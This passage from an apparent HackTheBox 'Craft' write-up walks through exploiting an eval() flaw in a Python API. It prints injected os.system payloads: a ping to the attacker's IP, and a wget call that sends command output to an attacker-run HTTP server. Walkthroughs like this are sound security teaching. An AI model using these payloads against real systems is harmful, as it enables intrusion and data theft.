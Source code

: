 ```python
brew_dict['abv'] = '__import__("os").system("pwd")'
```

Running `test_func()` again with the new `brew_dict['abv']` value results in the `pwd` command being executed (and the `else` condition being met).

```
>>> test_func()
/root/workspace/hackthebox/Craft
'Whatever'
```

This demonstrates code execution on the local (attacking) system. To gain remote code execution on the target system, the `test.py` file (shown previously in full above) was replicated on the local system (recall that `test.py` already contains credentials for `dinesh`). Then, line 20 of `test.py` was changed from `brew_dict['abv'] = '15.0'` to `brew_dict['abv'] = '__import__("os").system("ping -c 3 10.10.14.22")'` (note that `10.10.14.22` is the IP address of the local system on the HackTheBox network). 

In a separate terminal window on the local system, the `tcpdump -nni any icmp` command was run to display any ICMP network traffic received on any network interface. Then, the `test.py` file was run on the local system. The results of this are demonstrated below.

![ping.gif](/assets/images/htb/craft/ping.gif)

This confirms that remote code execution on the target system is possible through the `eval()` function in `brew.py`. Leveraging this to gain access to the remote system took some experimentation, as simple reverse shell payloads did not seem to work, and little feedback is returned regarding the reason (note: this is due to how the function within `brew.py` is written where the `eval()` function is implemented). 

To help understand the state of the remote system (and to potentially identify why simple reverse shell payloads were not working), the following general process was followed.

First, a simple HTTP server was created on the local system with `python3 -m http.server 80`. Then, the previously-used `ping -c 3 10.10.14.22` payload was replaced with something like `wget http://10.10.14.22/$(echo $(pwd))`. In other words, line 20 of `test.py` was changed to `brew_dict['abv'] = '__import__("os").system("wget http://10.10.14.22/$(echo $(pwd))")'`. Running `test.py` shows the following in the terminal window where the Python HTTP server is listening.
